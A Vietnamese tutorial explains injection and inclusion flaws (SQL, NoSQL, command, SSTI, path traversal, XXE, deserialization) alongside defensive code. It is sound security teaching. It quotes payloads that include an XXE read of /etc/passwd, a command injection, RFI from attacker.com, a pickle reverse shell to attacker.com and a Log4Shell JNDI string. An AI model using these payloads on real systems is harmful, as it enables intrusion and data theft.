





# 7.2. Injection and Inclusion Attacks (Các Cuộc tấn công Tiêm mã & Nhúng tệp)

## Tổng quan về Injection Flaws & Remote Code Execution
Trong khoa học máy tính, **Tấn công Tiêm mã (Injection Attack)** xảy ra khi một hệ thống phần mềm **xóa nhòa ranh giới giữa Dữ liệu Người dùng (User Data) và Lệnh Thực thi của Bộ máy Phân tích (Execution Instructions / Control Plane)**. Khi dữ liệu chưa được làm sạch từ bên ngoài được nối trực tiếp vào một câu lệnh (SQL, Shell, LDAP, XML, Template Engine), bộ thông dịch sẽ nhầm lẫn dữ liệu độc hại thành cú pháp lệnh, dẫn đến việc kẻ tấn công có thể thay đổi hoàn toàn logic thực thi ban đầu.

Đỉnh điểm của các lỗ hổng Injection và File Inclusion là **Remote Code Execution (RCE - Thực thi Mã từ xa)** – kịch bản ác mộng tối thượng khi kẻ tấn công giành được toàn quyền thực thi mã máy hoặc mở Reverse Shell trên máy chủ backend.



---

## 2. Chi tiết từng Keyword (Under-the-Hood Deep Dive)

### 1. SQL Injection (SQLi) & NoSQL Injection

#### 1. Khái niệm bản chất (What & Why)
- **SQL Injection (SQLi)**: Lỗ hổng xảy ra khi dữ liệu đầu vào không được lọc an toàn được nối chuỗi trực tiếp vào một truy vấn SQL động. Cho phép kẻ tấn công vượt qua xác thực (`' OR 1=1 --`), đọc trộm toàn bộ cơ sở dữ liệu (`UNION SELECT`), sửa đổi dữ liệu hoặc thậm chí gọi các thủ tục cấp phát shell hệ thống (như `xp_cmdshell` trong MSSQL hoặc `COPY ... PROGRAM` trong PostgreSQL).
- **NoSQL Injection**: Xuất hiện trong các cơ sở dữ liệu phi quan hệ (MongoDB, CouchDB). Kẻ tấn công không gửi chuỗi ký tự mà gửi các **Đối tượng Toán tử JSON (Query Operators)** như `{"$gt": ""}` hoặc `{"$ne": null}`. Khi server đưa trực tiếp JSON này vào hàm `db.users.find({ username: req.body.username, password: req.body.password })`, điều kiện `$ne: null` (mật khẩu khác null) luôn luôn đúng, cho phép đăng nhập vào tài khoản của bất kỳ ai mà không cần biết mật khẩu!

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Tại sao Prepared Statements / Parameterized Queries Triệt tiêu 100% SQLi?**
  - Khi ứng dụng nối chuỗi: `SELECT * FROM users WHERE name = '` + input + `'`:
    Câu lệnh được gửi lên Database dưới dạng một chuỗi duy nhất. Trình phân tích cú pháp (SQL Parser) quét qua và xây dựng Cây Cú pháp Trừu tượng (AST). Payload độc hại `' OR '1'='1` làm biến đổi cấu trúc của cây cú pháp, biến một điều kiện so sánh thành một biểu thức logic luôn đúng.
  - Khi sử dụng **Prepared Statements**:
    1. Giai đoạn 1: Server gửi cấu trúc truy vấn tĩnh lên Database trước:
       `PREPARE stmt FROM 'SELECT * FROM users WHERE name = ?';`
       Database Engine phân tích cú pháp và **đóng băng cấu trúc cây AST vĩnh viễn** trong bộ nhớ.
    2. Giai đoạn 2: Server gửi giá trị tham số `input` qua giao thức nhị phân riêng biệt:
       `EXECUTE stmt USING :input;`
       Ngay cả khi `input` chứa `' OR 1=1 -- DROP TABLE users;`, Database Engine **luôn luôn coi toàn bộ chuỗi đó là một giá trị chuỗi thuần túy (Literal String Value)** gán vào nốt lá của cây AST, tuyệt đối không bao giờ biên dịch nó thành lệnh SQL!

#### 3. Sơ đồ minh họa (Cơ chế Phân tích Cây AST: Nối chuỗi vs Parameterized Query)


#### 4. Code ví dụ thực chiến (C++ SQLite3 Parameterized Binding vs Vulnerable Concat)
```cpp
#include <iostream>
#include <sqlite3.h>
#include <string>

class SqliteUserRepository {
private:
    sqlite3* db;

public:
    SqliteUserRepository(sqlite3* database) : db(database) {}

    // PHƯƠNG THỨC AN TOÀN: Chuẩn Parameterized Query của SQLite C API
    bool authenticateUserSecure(const std::string& username, const std::string& password) {
        sqlite3_stmt* stmt = nullptr;
        // 1. Biên dịch câu lệnh SQL tĩnh với tham số ẩn danh (?)
        const char* sql = "SELECT id FROM users WHERE username = ? AND password = ?;";
        if (sqlite3_prepare_v2(db, sql, -1, &stmt, nullptr) != SQLITE_OK) {
            std::cerr << "Failed to prepare statement.\n";
            return false;
        }

        // 2. Ràng buộc an toàn tham số (Parameter Binding) ở tầng binary
        sqlite3_bind_text(stmt, 1, username.c_str(), -1, SQLITE_TRANSIENT);
        sqlite3_bind_text(stmt, 2, password.c_str(), -1, SQLITE_TRANSIENT);

        // 3. Thực thi
        int stepResult = sqlite3_step(stmt);
        bool authenticated = (stepResult == SQLITE_ROW);

        // 4. Dọn dẹp tài nguyên
        sqlite3_finalize(stmt);
        return authenticated;
    }
};

int main() {
    sqlite3* memDb;
    sqlite3_open(":memory:", &memDb);
    // Khởi tạo bảng mẫu
    sqlite3_exec(memDb, "CREATE TABLE users (id INT, username TEXT, password TEXT);", nullptr, nullptr, nullptr);
    sqlite3_exec(memDb, "INSERT INTO users VALUES (1, 'admin', 'SuperSecretPass2026');", nullptr, nullptr, nullptr);

    SqliteUserRepository repo(memDb);

    // Kẻ tấn công cố tình inject cú pháp SQL kinh điển
    std::string maliciousUser = "admin' OR '1'='1";
    std::string maliciousPass = "' OR 'a'='a";

    bool success = repo.authenticateUserSecure(maliciousUser, maliciousPass);
    std::cout << "[Security Test] SQL Injection Attempt: " << (success ? "BYPASSED (BUG!)" : "DEFENDED (BLOCKED!)") << "\n";

    sqlite3_close(memDb);
    return 0;
}
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Dùng ORM (như Hibernate, TypeORM, Prisma) nhưng vẫn viết các câu truy vấn thô bằng cách nối chuỗi: `db.rawQuery("SELECT * FROM items WHERE type = '" + type + "'")`. Bản thân ORM không thể bảo vệ bạn nếu bạn chủ động dùng hàm nối chuỗi thô!
- **Anti-pattern**: Trong MongoDB/Express: Không validate kiểu dữ liệu của `req.body.username`. Nếu người dùng gửi JSON `{ "username": { "$gt": "" } }`, Express Body-Parser sẽ parse nó thành một Object thay vì String, mở đường trực tiếp cho NoSQL Injection. Bắt buộc phải validate kiểu bằng Zod/Joi (`z.string()`).

#### 6. Ứng dụng thực tế trong Backend / Systems
Mọi hệ thống xử lý giao dịch tài chính bắt buộc phải cấm hoàn toàn lệnh nối chuỗi SQL trong quy trình kiểm duyệt code (Code Review Gate) và kích hoạt bộ quy tắc linter tĩnh kiểm tra SQL Injection.

---

### 2. OS Command, LDAP & Server-Side Template Injection (SSTI)

#### 1. Khái niệm bản chất (What & Why)
- **OS Command Injection (Tiêm lệnh Hệ điều hành)**: Lỗ hổng xuất hiện khi ứng dụng backend gọi các hàm thực thi shell của hệ điều hành (như `system()`, `popen()` trong C/C++, `child_process.exec()` trong Node.js, `os.system()` trong Python) và truyền trực tiếp dữ liệu người dùng vào chuỗi lệnh.
  - Kẻ tấn công sử dụng các ký tự phân tách lệnh của shell (`;`, `&&`, `||`, `|`, `` ` `` , `$()`) để thực thi mã tùy ý:
    Ví dụ: Lệnh gốc: `ping -c 1 <input>` $\implies$ Input: `127.0.0.1; cat /etc/passwd` $\implies$ Toàn bộ file mật khẩu hệ thống được in ra màn hình!
- **LDAP Injection**: Xảy ra trong các hệ thống doanh nghiệp sử dụng Microsoft Active Directory hoặc OpenLDAP để quản lý tài khoản. Kẻ tấn công chèn các ký tự điều khiển LDAP (`*`, `(`, `)`, `&`, `|`) để vô hiệu hóa bộ lọc tìm kiếm và chiếm đoạt danh bạ người dùng.
- **Server-Side Template Injection (SSTI)**: Xảy ra khi ứng dụng backend nhúng trực tiếp dữ liệu người dùng vào chuỗi khuôn mẫu (Template Engine như Jinja2, Twig, Freemarker, Handlebars) thay vì truyền dữ liệu qua Context Object.
  - Kẻ tấn công inject cú pháp của template (ví dụ: `{{7*7}}` hoặc `${7*7}`). Nếu server trả về `49`, hệ thống dính SSTI. Từ biểu thức này, kẻ tấn công có thể truy cập vào các thuộc tính đối tượng nội tại (như `__class__.__mro__` trong Python) để gọi tới hàm `os.popen()` và thực thi mã RCE!

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Sự Khác Biệt Giữa `exec()` (Spawn Shell) và `execFile()` (Direct Process Fork)**:
  - Khi gọi `exec("ping " + input)`:
    Hệ điều hành Kernel phải thực thi lệnh `fork()` và `execve("/bin/sh", ["/bin/sh", "-c", "ping " + input])`.
    Tiến trình `/bin/sh` là một trình thông dịch hoàn chỉnh (Shell Interpreter). Nó sẽ quét chuỗi để tìm các toán tử điều khiển `;`, `|`, `>`, mở ra toàn bộ khả năng tấn công Command Injection.
  - Khi gọi `execFile("/bin/ping", ["-c", "1", input])`:
    Kernel gọi trực tiếp `execve("/bin/ping", argv)`.
    Không có bất kỳ tiến trình `/bin/sh` nào được sinh ra! Ký tự `;` hay `&&` nằm trong `input` chỉ đơn thuần được xem là một đối số văn bản truyền vào hàm `main(int argc, char** argv)` của chương trình ping, triệt tiêu 100% khả năng chạy lệnh phụ!

#### 3. Sơ đồ minh họa (Cơ chế Phòng vệ Command Injection: Fork Process Trực tiếp)


#### 4. Code ví dụ thực chiến (TypeScript Secure Process Execution via spawnFile)
```typescript
import { execFile } from 'child_process';
import { promisify } from 'util';

const execFileAsync = promisify(execFile);

export class SecureSystemExecutor {
    /**
     * PHƯƠNG THỨC AN TOÀN: Tuyệt đối không bao giờ gọi child_process.exec()!
     * Sử dụng execFile để truyền danh sách tham số (Arguments Array) trực tiếp tới Kernel.
     */
    public static async pingHost(untrustedHostInput: string): Promise<string> {
        // 1. Validate định dạng chặt chẽ bằng Regex trước khi chạm tới tầng OS
        const hostRegex = /^[a-zA-Z0-9.-]+$/;
        if (!hostRegex.test(untrustedHostInput)) {
            throw new Error("Security Alert: Invalid hostname format.");
        }

        try {
            // execFile gọi thẳng file nhị phân /sbin/ping mà KHÔNG khởi tạo /bin/sh
            const { stdout } = await execFileAsync('/sbin/ping', ['-c', '1', untrustedHostInput], {
                timeout: 5000,           // Tránh nghẽn tiến trình
                maxBuffer: 1024 * 10,    // Giới hạn buffer đầu ra 10KB
            });
            return stdout;
        } catch (error: any) {
            console.error("Command Execution Error:", error.message);
            throw new Error("Diagnostic command execution failed.");
        }
    }
}
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Nghĩ rằng chỉ cần lọc (Sanitize / Blacklist) các ký tự `;` hoặc `|` là đủ an toàn. Kẻ tấn công có thể dùng ký tự ngắt dòng `\n`, toán tử backtick `` ` ``, hoặc biến môi trường `$IFS` trong Linux để né tránh các bộ lọc ngây thơ.
- **Anti-pattern**: Nối trực tiếp chuỗi của người dùng vào mã HTML Template: `templateEngine.render("Hello " + req.query.name)` thay vì dùng Context Data: `templateEngine.render("Hello {{name}}", { name: req.query.name })`.

#### 6. Ứng dụng thực tế trong Backend / Systems
Bất kỳ tác vụ nào cần xử lý chuyển đổi video (FFmpeg), xử lý tài liệu PDF (wkhtmltopdf / LibreOffice) hoặc nén ảnh (ImageMagick) đều phải chạy trong một Docker container cô lập với quyền Non-root và sử dụng các API mảng đối số an toàn.

---

### 3. File Inclusion, Path Traversal & XML External Entity (XXE)

#### 1. Khái niệm bản chất (What & Why)
- **Path Traversal / Directory Traversal**: Kỹ thuật tấn công sử dụng các ký tự điều hướng thư mục tương đối (như `../` hoặc `..%2F`) để thoát ra khỏi thư mục gốc dự kiến (Root directory) của ứng dụng nhằm đọc hoặc ghi đè các tệp tin hệ thống nhạy cảm (như `/etc/passwd`, `/etc/shadow`, file `.env`, file mã nguồn chứa Database credentials).
- **LFI (Local File Inclusion)**: Xuất hiện khi ứng dụng nhúng động một tệp tin cục bộ trên máy chủ vào luồng thực thi (ví dụ: `include($_GET['page'])` trong PHP). Nếu kẻ tấn công tải lên được một file ảnh chứa mã PHP ẩn (Webshell) rồi dùng LFI để include file ảnh đó, mã độc sẽ được thực thi trên máy chủ (Dẫn đến RCE).
- **RFI (Remote File Inclusion)**: Xảy ra khi ứng dụng cho phép tải và thực thi trực tiếp một tệp tin từ một máy chủ từ xa trên Internet (`include("http://attacker.com/malicious.php")`).
- **XXE (XML External Entity Injection)**: Lỗ hổng xuất hiện trong các bộ phân tích cú pháp XML (XML Parsers) cho phép định nghĩa các Thực thể Ngoại vi (**External Entities - `<!ENTITY>`**). Kẻ tấn công có thể lợi dụng tính năng này để buộc XML Parser đọc tệp tin nội bộ hệ thống thông qua giao thức `file:///` hoặc thực hiện quét cổng mạng nội bộ qua SSRF (`http://internal-db/`).

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Cơ chế Phân tích Tấn công XXE**:
  Kẻ tấn công gửi một payload XML có định dạng:
  ```xml
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
  ]>
  <user>
    <name>&xxe;</name>
    <email>alice@example.com</email>
  </user>
  ```
  Nếu bộ Parser XML của ứng dụng (như `libxml2`, Java `DocumentBuilderFactory`) chưa bị vô hiệu hóa tính năng thực thể ngoài (External Entities):
  Khi gặp thẻ `&xxe;`, Parser sẽ thực hiện system call `open("/etc/passwd", O_RDONLY)`, đọc toàn bộ nội dung file và nhúng vào thuộc tính `name` để trả về cho người dùng!

#### 3. Sơ đồ minh họa (Mô hình Tấn công Directory Traversal và Cơ chế Chuẩn hóa Path)


#### 4. Code ví dụ thực chiến (TypeScript Secure Path Normalization & Canonical Check)
```typescript
import * as path from 'path';
import * as fs from 'fs';

export class SecureFileServer {
    private static readonly BASE_UPLOAD_DIR = path.resolve('/var/app/public_uploads');

    /**
     * Ngăn chặn tuyệt đối Path Traversal và LFI bằng kỹ thuật Canonical Path Verification
     */
    public static getSafeFilePath(untrustedFileName: string): string {
        // 1. Giải quyết đường dẫn tuyệt đối (Canonical Path Resolution)
        const safeJoinedPath = path.resolve(this.BASE_UPLOAD_DIR, untrustedFileName);

        // 2. KIỂM TRA RANH GIỚI TỐI THƯỢNG:
        // Đường dẫn thực tế bắt buộc phải có tiền tố bắt đầu bằng BASE_UPLOAD_DIR!
        if (!safeJoinedPath.startsWith(this.BASE_UPLOAD_DIR + path.sep)) {
            console.error(`[Directory Traversal Alert] Attack attempt detected: ${untrustedFileName}`);
            throw new Error("Access Denied: Path traversal out of bounds violation.");
        }

        // 3. Kiểm tra xem file có thực sự tồn tại hay không
        if (!fs.existsSync(safeJoinedPath)) {
            throw new Error("File not found.");
        }

        return safeJoinedPath;
    }
}
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Cố gắng chống Path Traversal bằng hàm thay thế chuỗi đơn giản: `input.replace('../', '')`. Kẻ tấn công chỉ cần gửi chuỗi lồng nhau `....//` hoặc `..././`: Khi server xóa một cụm `../`, chuỗi còn lại sẽ tự động chập lại thành một `../` mới hoàn chỉnh!
- **Anti-pattern**: Trong XML Parsers: Quên tắt các cờ `disallow-doctype-decl` và `external-general-entities`. Luôn luôn cấu hình parser ở chế độ an toàn tối đa.

#### 6. Ứng dụng thực tế trong Backend / Systems
Bất kỳ endpoint tải file (File Download / Static Asset Hosting) nào của ứng dụng đều bắt buộc phải đi qua lớp Canonical Path Verification hoặc sử dụng định danh tệp tin dạng UUID ánh xạ trong cơ sở dữ liệu thay vì lấy tên file trực tiếp từ tham số URL.

---

### 4. Insecure Deserialization & Remote Code Execution (RCE)

#### 1. Khái niệm bản chất (What & Why)
- **Serialization (Tuần tự hóa)**: Quá trình chuyển đổi cấu trúc dữ liệu hoặc đối tượng trong bộ nhớ RAM thành một dòng byte (Byte Stream / String) để lưu trữ vào đĩa hoặc truyền tải qua mạng (ví dụ: JSON, Protobuf, Java Serializable, Python Pickle, PHP Serialize).
- **Deserialization (Giải tuần tự hóa)**: Quá trình ngược lại: Đọc dòng byte và tái tạo lại đối tượng sống trong không gian bộ nhớ của chương trình.
- **Insecure Deserialization (Giải tuần tự hóa Không an toàn)**: Lỗ hổng cực kỳ nghiêm trọng xuất hiện khi ứng dụng giải tuần tự hóa dữ liệu độc hại do kẻ tấn công cung cấp mà không có sự kiểm tra hoặc hạn chế kiểu đối tượng.
- **Remote Code Execution (RCE)**: Kẻ tấn công lợi dụng các lớp đối tượng có sẵn trong mã nguồn hoặc thư viện phụ thuộc (gọi là các **Gadget Chains**) để chuỗi các hàm gọi lại (Magic Methods) dẫn tới việc ép CPU máy chủ thực thi lệnh hệ thống tùy ý.

#### 2. Cơ chế hoạt động sâu (Under the hood / Hardcore Internals)
- **Cơ chế Khai thác Magic Methods (Ví dụ: Python `pickle` hoặc Java `readObject`)**:
  - Trong Python, thư viện `pickle` được thiết kế để tuần tự hóa cả mã thực thi. Phương thức ma thuật `__reduce__()` cho phép một đối tượng tự định nghĩa cách nó được giải nén.
  - Kẻ tấn công tạo một payload với `__reduce__` trả về lệnh `(os.system, ('bash -i >& /dev/tcp/attacker.com/4444 0>&1',))`.
  - Khi máy chủ backend gọi lệnh: `data = pickle.loads(untrusted_cookie)`:
    Máy ảo Python tự động triệu hồi hàm `os.system` và thực thi chuỗi lệnh shell đó ngay lập tức với quyền hạn của tiến trình backend!
  - **Lỗ hổng Lịch sử Java Log4Shell (CVE-2021-44228)**:
    Cũng là một biến thể của Insecure Deserialization kết hợp JNDI Lookup, cho phép kẻ tấn công chỉ cần gửi chuỗi `${jndi:ldap://attacker.com/a}` vào log là có thể chiếm đoạt hoàn toàn máy chủ từ xa.

#### 3. Sơ đồ minh họa (Mô hình Khai thác Gadget Chain trong Insecure Deserialization)


#### 4. Code ví dụ thực chiến (Python Safe Deserialization Demonstration)
```python
import json
import hmac
import hashlib

class SafeDataSerialization:
    SECRET_KEY = b"SYSTEM_HMAC_AUTHENTICATION_KEY_2026"

    @classmethod
    def serialize(cls, data_dict: dict) -> str:
        """
        AN TOÀN: Sử dụng định dạng dữ liệu thuần JSON (Data-only format)
        Tuyệt đối CẤM sử dụng thư viện pickle cho untrusted data!
        """
        payload_bytes = json.dumps(data_dict, separators=(',', ':')).encode('utf-8')
        signature = hmac.new(cls.SECRET_KEY, payload_bytes, hashlib.sha256).hexdigest()
        return f"{payload_bytes.decode('utf-8')}.{signature}"

    @classmethod
    def deserialize(cls, signed_payload: str) -> dict:
        """
        Giải mã an toàn kèm xác thực tính toàn vẹn chữ ký HMAC
        """
        parts = signed_payload.rsplit('.', 1)
        if len(parts) != 2:
            raise ValueError("Malformed serialized payload.")

        raw_json, received_sig = parts
        expected_sig = hmac.new(cls.SECRET_KEY, raw_json.encode('utf-8'), hashlib.sha256).hexdigest()

        # So sánh thời gian bất biến chống Timing Attack
        if not hmac.compare_digest(received_sig, expected_sig):
            raise PermissionError("Security Violation: Serialized data tampered with!")

        # Parse JSON an toàn (Không bao giờ thực thi code)
        return json.loads(raw_json)

# Minh họa thực thi
data = {"user_id": 101, "role": "MEMBER"}
serialized_package = SafeDataSerialization.serialize(data)
print("Safe Serialized String:", serialized_package)

restored = SafeDataSerialization.deserialize(serialized_package)
print("Safely Restored Object:", restored)
```

#### 5. Ưu / Nhược điểm, Pitfalls & Anti-patterns
- **Pitfall**: Dùng `pickle.loads()` trong Python hoặc `unserialize()` trong PHP để đọc dữ liệu lưu trong Cookie hoặc Redis Cache với suy nghĩ "Dữ liệu trong Cache là an toàn". Nếu hacker tìm ra một lỗi SSRF hoặc chèn được dữ liệu vào Cache, họ sẽ RCE toàn bộ hệ thống.
- **Anti-pattern**: Sử dụng các thư viện tuần tự hóa nhị phân phức tạp cho các API công cộng. Luôn luôn ưu tiên các định dạng dữ liệu phi thực thi thuần túy (**JSON, Protocol Buffers, MessagePack**).

#### 6. Ứng dụng thực tế trong Backend / Systems
Các khuyến nghị an ninh mạng của Google và Microsoft bắt buộc loại bỏ các giao diện tuần tự hóa có thể chứa mã thực thi (`BinaryFormatter` trong .NET đã bị khai tử hoàn toàn; Java cấm serialize các đối tượng không có Look-Ahead Object Filtering).
